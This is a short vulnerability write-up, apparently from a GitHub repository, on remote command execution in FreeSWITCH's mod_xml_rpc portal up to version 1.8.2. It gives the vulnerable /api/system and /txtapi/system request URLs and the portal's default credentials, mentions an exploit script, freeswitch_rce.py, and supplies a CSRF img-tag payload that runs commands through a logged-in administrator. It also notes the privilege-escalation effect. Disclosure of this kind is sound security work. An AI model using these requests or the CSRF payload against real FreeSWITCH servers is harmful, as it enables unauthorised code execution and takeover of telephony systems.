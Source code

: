 

version:<=1.8.2

module:mod_xml_rpc

I tested a total of three versions.（download url:http://files.freeswitch.org/）

- 1.8.2
- 1.5.15
- 1.7.0

# 1.5.15

Install freeswitch1.5.15 Windows version（http://files.freeswitch.org/windows/installer/x64/freeswitch.msi）

Open the console and type: load mod_xml_rpc (load freeswitch portal)

Access local port 8080,

http://127.0.0.1:8080/portal/index.html 

 Input in console 
``` api("system calc") ```or```api("bg_system calc") ```



![1](/files/1.png)

Can also request the interface directly

http://127.0.0.1:8080/txtapi/system?calc
or

http://127.0.0.1:8080/api/system?calc

![1](/files/2.png)

# 1.7.0

![1](/files/3.png)

![1](/files/4.png)

# exp

The default account and password for freeswitch portal is freeswitch:works

You can check it yourself using`freeswitch_rce.py`

Or use csrf to attack the logged in administrator.

```
<img src="http://127.0.0.1:8080/api/system?calc">
```

![1](/files/5.png)


Because freeswitch often runs with high privileges, it can also achieve the effect of privilege escalation
